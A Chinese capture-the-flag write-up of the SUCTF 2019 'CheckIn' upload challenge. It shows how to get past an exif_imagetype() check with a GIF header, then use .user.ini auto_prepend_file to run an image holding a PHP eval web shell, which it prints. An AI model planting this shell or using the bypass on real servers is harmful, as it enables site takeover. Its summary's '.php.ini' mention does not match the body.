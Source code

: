# \[SUCTF 2019]CheckIn

## \[SUCTF 2019]CheckIn

## 考点

* exif\_imagetype()函数绕过
* 文件上传.user.ini

## wp

随便上传一个php文件试试

![](<../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

上传一个空的gif文件（就是新建空白txt再把后缀改成gif）判断有没有检查其他东西，会提示`exif_imagetype:not image!`，加上文件头`GIF89a`，就成功了。

试试上传正常图片

![](<../.gitbook/assets/image (26) (1) (1) (1).png>)

这儿可以猜测是`exif_imagetype()`函数判断是不是图片，在文件头添加图片头就可以绕过了，例如gif的文件头GIF89a

然后制作图片马上传

![](<../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

&#x20;上传条件

1. 不能上传带有`<?`的文件，使用`<script language="php">xxx</script>`绕过
2. 上传的文件必须含有图片头

考虑使用.htaccess，但是这个服务器是nginx，而.htaccess是针对apache的。那么这里利用是 .user.ini ，而且.user,ini利用的范围比.htaccess更广

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP\_INI\_SYSTEM、PHP\_INI\_PERDIR、PHP\_INI\_ALL、PHP\_INI\_USER

![](<../.gitbook/assets/image (14) (1).png>)

`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为`PHP_INI_PERDIR` 、 `PHP_INI_USER`的设置。

在php配置项中有两个比较有意思的项`auto_prepend_file`和`auto_append_file`，相当于指定一个文件，要执行脚本前自动包含，类似于在脚本文件前调用了require()函数。`auto_prepend_file`是在脚本文件前插入，而`auto_append_file`是在脚本文件最后才插入。

那么思路就有了，先上传图片马，然后利用.user.ini解析图片马，进行getshell

上传的.user.ini

![](<../.gitbook/assets/image (3) (1) (1).png>)

上传的shell，常用一句话`GIF89a? <script language="php">eval($_POST[1])</script>`

![](<../.gitbook/assets/image (17) (1) (1) (1).png>)

然后直接访问`/uploads/04b0951938d905b41348c1548f9c338b/`即可，因为`auto_prepend_file`自动包含了`shell.gif`

## 小结

1. 不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用`.php.ini`。
2. [user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

